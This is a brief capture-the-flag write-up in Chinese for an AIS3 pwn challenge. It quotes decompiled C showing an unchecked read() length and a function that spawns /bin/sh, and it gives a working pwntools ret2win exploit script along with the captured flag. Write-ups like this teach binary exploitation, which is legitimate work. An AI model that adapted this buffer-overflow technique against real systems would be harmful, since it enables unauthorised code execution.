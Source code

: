 ```c
  if ( v7 )
    *v7 = 0;
  if ( strcmp(s, "yes") )
  {
    puts(&byte_402AE8);
    exit(1);
  }
  printf(&byte_402B20);
  int8 = read_int8();
  printf(&byte_402B41);
  read(0, buf, int8);
  return 0;
}
```
```c
int Welcome_to_the_world_of_Ave_Mujica()
{
  puts(&s);
  puts(&byte_402990);
  puts(&byte_4029B4);
  puts(&byte_4029C3);
  puts(&byte_4029D2);
  puts(&byte_4029E1);
  puts(&byte_4029FC);
  puts(&byte_402A15);
  return execve("/bin/sh", 0, 0);
}
```
可以發現read_int8()可以輸入0~255的數字，但read(0,buf,int8)沒有檢查int8是否超過buf大小，所以可以利用這點ret2win。
```py
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'

welcome_addr = 0x401256

#p = process('./chal')
p=remote("chals1.ais3.org",60877)

p.sendlineafter(b"?", b"yes")

p.sendlineafter(b": ", b"-1")


payload = flat(
    b'A' * 168,
    welcome_addr
)

p.sendlineafter(b": ", payload)

p.interactive()
#AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._ad15e425293ef05414d129082e0c9154}
```
# 最終解題
![螢幕擷取畫面 2025-05-26 170121](https://hackmd.io/_uploads/H1J9ikIMle.png)